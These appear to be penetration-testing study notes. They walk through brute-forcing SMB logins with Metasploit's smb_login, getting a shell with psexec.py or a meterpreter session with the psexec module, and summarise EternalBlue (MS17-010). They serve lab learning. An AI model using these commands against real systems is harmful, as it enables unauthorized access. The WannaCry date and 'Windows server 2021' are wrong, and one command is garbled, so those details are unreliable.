 Can use <r>msfconsole</r> to automate the attack
+ will want to launch with `service postgresql start && msfconsole`
  + because msfconsole uses a database that runs with postgresql 

Then will <r>search smb_login</r>
+ or `use auxiliary/scanner/smb/smb_login`
  + `set RHOSTS 10.3.19.6`
  + `set USER_FILE set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt` (Because we are brute forcing)
  + `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` (Because we are brute forcing)
  + `set VERBOSE false` (to only show successful logins)

<o>psexec</o> is a windows utility so can not use it on a linux system 
+ will need to use <o>`psexec.py`</o> instead so a python script can do it 
+ Can run with `psexec.py Administrator@10.3.19.6 cmd.exe`
  + where are using the username: `Administrator`
  + The IP is the target 
  + and `cmd.exe` is executed because the goal is CLI access 
  + will ask you for the `password`
+ It will then have CLI access 
  + can use `whoami` to see privilege level 

to get a <r>meterpreter</r> session, can use <r>`msfconsole`</r>
+ can `search psexec` or `use exploit/windows/smb/psexec`
  + <r>NOTE: THIS IS RUNNING A MALICIOUS FILE ON THE TARGET SYSTEM UNLIKE THE PREVIOUS EXPLOIT, BE CAREFUL OF ANTI VIRUS</r>
  + `set RHOSTS 10.3.19.6`
  + `set SMBUser Administrator` (where the username was got with brute-force)
  + `set SMBPass qwertyuiop` (where the password was got with brute-force)

### Exploiting Windows MS17-010 SMB Vulnerability (Eternal Blue) ###

#### EternalBlue ####
+ EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerability and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is apart of
+ EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability
  + it was leaked to the public by a hacker group called the ***Shadow Brokers*** in 2017
+ EternalBlue takes advantage of a vulnerability in the Windows <o>SMBv1</o> protocol that allows attackers to send specially crafted packets that allow arbitrary commands 
  + can get a ***reverse shell*** or ***meterpreter*** 
  + Will also provide elevated access, no need for privilege escalation

+ EternalBlue exploit was used in the WannaCry ransomware attack in June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible 
  + Eternal blue would scan other computers on the network and spread the ***WannaCry*** 
+ The vulnerability affects multiple versions of Windows:
  + Windows Vista
  + Windows 7
  + Windows server 2008
  + Windows 8.1
  + Windows server 2021
  + Windows 10
  + Windows server 2016
